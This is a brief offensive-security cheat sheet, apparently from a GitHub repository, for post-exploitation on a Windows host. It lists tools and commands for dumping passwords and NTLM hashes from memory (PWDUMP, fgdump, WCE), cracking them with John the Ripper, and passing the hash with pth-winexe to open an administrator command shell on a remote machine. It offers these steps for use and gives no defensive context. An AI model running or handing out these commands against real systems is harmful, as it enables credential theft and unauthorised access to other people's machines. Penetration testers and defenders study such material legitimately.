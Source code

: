 # Inside Windows host


## Password dumping
```
# In-memory dumps
PWDUMP

# Requires admin privileges
# Dumps Passwords/NTLM Hashes
fgdump.exe
```

```
# Windows Credentials Editor
# Steal Passwords/NTLM Hashes from memory
wce64.exe
```

## Crack NTLM Hashes
```bash
# Bruteforce mode
john <file>
```

## Passing the hash
```bash
# See all hashes
pth-*


export SMBHASH=<hash>
pth-winexe -U administrator% //<ip> cmd
```
